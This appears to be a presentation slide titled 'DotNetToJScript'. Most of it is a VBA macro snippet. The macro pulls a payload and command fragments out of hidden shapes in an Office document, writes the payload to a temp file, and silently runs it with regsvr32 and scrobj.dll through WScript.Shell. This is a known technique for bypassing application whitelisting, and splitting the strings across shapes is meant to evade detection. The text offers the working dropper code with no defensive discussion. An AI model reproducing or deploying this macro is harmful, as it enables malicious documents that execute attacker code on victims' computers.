

# DotNetToJScript
' fetch the payload from shape1
m = ActiveDocument.Shapes(1).TextFrame.TextRange.Text
' "WScript.Shell" from shape2
n = ActiveDocument.Shapes(2).TextFrame.TextRange.Text
' regsvr32.exe /s /u /i:
o = ActiveDocument.Shapes(3).TextFrame.TextRange.Text
' " scrobj.dll"
q = ActiveDocument.Shapes(4).TextFrame.TextRange.Text
' write the payload to disk
p = Environ$("TEMP") & "\tmp45.txt"

Call SaveContent(m, p)
If Dir(p) <> "" Then
    Dim tmp As Object
    Set Z = CreateObject(n)
    Z.Run (o & p & q), 0, False
End If